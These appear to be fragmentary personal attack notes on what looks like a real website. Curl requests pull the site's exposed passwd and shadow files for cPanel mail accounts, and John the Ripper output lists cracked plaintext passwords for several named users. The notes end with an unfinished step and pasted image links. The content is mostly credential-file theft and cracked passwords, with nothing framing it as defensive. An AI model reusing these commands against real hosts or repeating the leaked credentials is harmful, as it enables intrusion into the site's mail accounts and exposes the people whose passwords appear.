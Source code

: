 
root@nagasaikiran:~# curl https://www.elharcon.com/homedir/etc/elharcon.com/passwd

```
nkem:x:725:722::/home/elharcon/mail/elharcon.com/nkem:/usr/local/cpanel/bin/noshell
sales:x:725:722::/home/elharcon/mail/elharcon.com/sales:/usr/local/cpanel/bin/noshell
adanma:x:725:722::/home/elharcon/mail/elharcon.com/adanma:/usr/local/cpanel/bin/noshell
patrick:x:725:722::/home/elharcon/mail/elharcon.com/patrick:/usr/local/cpanel/bin/noshell
john:x:725:722::/home/elharcon/mail/elharcon.com/john:/usr/local/cpanel/bin/noshell
mike:x:725:722::/home/elharcon/mail/elharcon.com/mike:/usr/local/cpanel/bin/noshell
```


root@nagasaikiran:~# curl https://www.elharcon.com/homedir/etc/elharcon.com/shadow

```
kali@kali:~$ john hash --show                                      
nkem:oracle:15492::::::
sales:kokakola1:15497::::::
adanma:desdes:15497::::::
patrick:asgaard:15504::::::
mike:kenkel:15518::::::
```


Step 1 : - I am trying to 
![[Pasted image 20250419222041.png]]

![[Pasted image 20250419222118.png]]


![[Pasted image 20250419222249.png]]



![[Pasted image 20250419222148.png]]
